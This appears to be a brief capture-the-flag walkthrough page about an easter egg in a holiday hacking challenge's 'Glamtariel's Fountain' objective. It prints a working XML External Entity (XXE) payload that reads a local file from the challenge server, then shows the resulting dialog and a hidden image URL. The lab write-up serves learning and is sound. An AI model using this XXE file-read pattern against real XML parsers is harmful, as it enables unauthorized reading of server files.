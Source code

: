 # Ram Bambidil

After retrieving the ring list during the <a href="../../quests/Recover_the_Web_Ring/10_Glamtariels_Fountain/">Glamtariel's Fountain</a> objective, if we give the Princess the Green Ring via the XXE method, we get an interesting dialog.

``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root[  
	<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/greenring.txt">
]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

| Object | Dropped On | Princess | Fountain |
| ------ | ---------- | -------- | -------- |
| greenring.txt| princess | Hey, who is this guy? He doesn't have a ticket! | I don't remember seeing him in the movies! |

We also have a new value in the 'visit' property, telling us to go to `https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/tomb2022-tommyeasteregg3847516894.png`, where we get the following image.

![](tomb2022-tommyeasteregg3847516894.png)